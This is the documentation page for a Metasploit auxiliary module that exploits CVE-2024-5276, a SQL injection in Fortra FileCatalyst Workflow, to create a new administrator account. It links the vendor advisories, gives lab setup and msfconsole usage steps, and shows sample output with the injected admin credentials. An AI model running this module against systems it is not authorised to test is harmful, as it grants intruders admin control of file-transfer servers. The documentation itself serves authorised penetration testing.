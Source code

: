 ## Vulnerable Application

This module exploits a SQL injection vulnerability in Fortra FileCatalyst Workflow <= v5.1.6 Build 135 (CVE-2024-5276), by adding a new
administrative user to the web interface of the application.

The vendor published an advisory [here]
(https://support.fortra.com/filecatalyst/kb-articles/advisory-6-24-2024-filecatalyst-workflow-sql-injection-vulnerability-YmYwYWY4OTYtNTUzMi1lZjExLTg0MGEtNjA0NWJkMDg3MDA0)
and [here](https://www.fortra.com/security/advisories/product-security/fi-2024-008).

The advisory from Tenable is available [here](https://www.tenable.com/security/research/tra-2024-25).

## Testing

The software can be obtained from the [vendor](https://www.goanywhere.com/products/filecatalyst/trial).

Deploy it by following the vendor's [installation guide]
(https://filecatalyst.software/public/filecatalyst/Workflow/5.1.6.139/FileCatalyst_Web_Tomcat_Installation.pdf).

**Successfully tested on**

- Fortra FileCatalyst Workflow v5.1.6 (Build 135) on Windows 10 22H2
- Fortra FileCatalyst Workflow v5.1.6 (Build 135) on Ubuntu 24.04 LTS

## Verification Steps

1. Deploy Fortra FileCatalyst Workflow <= v5.1.6 Build 135
2. Start `msfconsole`
3. `use auxiliary/admin/http/fortra_filecatalyst_workflow_sqli`
4. `set RHOSTS <IP>`
5. `set RPORT <PORT>`
6. `set TARGETURI <URI>`
7. `set NEW_USERNAME <username>`
8. `set NEW_PASSWORD <password>`
9. `run`
10. A new admin user should have been successfully added.

## Options

### NEW_USERNAME
Username to be used when creating a new user with admin privileges.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

### NEW_EMAIL
E-mail to be used when creating a new user with admin privileges.

## Scenarios

Running the module against FileCatalyst Workflow v5.1.6 (Build 135) on either Windows 10 22H2 or Ubuntu 24.04 LTS should result in an output
similar to the following:

```
msf auxiliary(admin/http/fortra_filecatalyst_workflow_sqli) > run
[*] Running module against 192.168.137.195

[*] Starting SQL injection workflow...
[+] Server reachable.
[*] JSESSIONID value: CBD945F52F91E0F4354296C939BDABDE
[*] FCWEB.FORM.TOKEN value: IvHIPuxllBiHOfXzLlaS
[*] Redirect #1: /workflow/createNewJob.do?.rnd2=3324035&FCWEB.FORM.TOKEN=IvHIPuxllBiHOfXzLlaS
[*] Redirect #2: /workflow/jsp/chooseOrderForm.jsp?.rnd2=3324040&FCWEB.FORM.TOKEN=IvHIPuxllBiHOfXzLlaS
[*] Received expected response.
[+] SQL injection successful!
[*] Confirming credentials...
[*] FCWEB.FORM.TOKEN value: IvHIPuxllBiHOfXzLlaS
[+] Login successful!
[+] New admin user was successfully injected:
	elroy:yodTwsPs
[+] Login at: http://192.168.137.195:8080/workflow/jsp/logon.jsp
[*] Auxiliary module execution completed
```
